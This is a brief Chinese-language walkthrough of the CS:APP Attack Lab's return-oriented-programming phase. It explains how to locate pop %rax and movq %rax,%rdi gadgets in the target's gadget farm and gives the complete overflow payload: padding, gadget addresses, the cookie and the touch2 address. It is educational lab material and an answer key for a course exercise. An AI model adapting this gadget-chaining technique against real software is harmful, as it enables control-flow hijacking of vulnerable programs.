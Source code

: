 ![image-20240510214408829](./image/3,attack_lab(target)_image/image-20240510214408829.png)



在farm中，先找58-5f，并且要求其后面只有0x90(nop)或者0xc3(ret)。  只有一个58 90 c3满足要求 ，即 pop %rax

然后，肯定是找movq %rax,%rdi 即48 89 c7 c3 以及48 89 c7 90 c3

故答案为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00  /* gadget1 */
fa 97 b9 59 00 00 00 00   /* cookie=0x59b997fa */
a2 19 40 00 00 00 00 00  /* gadget2 */
ec 17 40 00 00 00 00 00  /* touch2=0x4017ec */
```
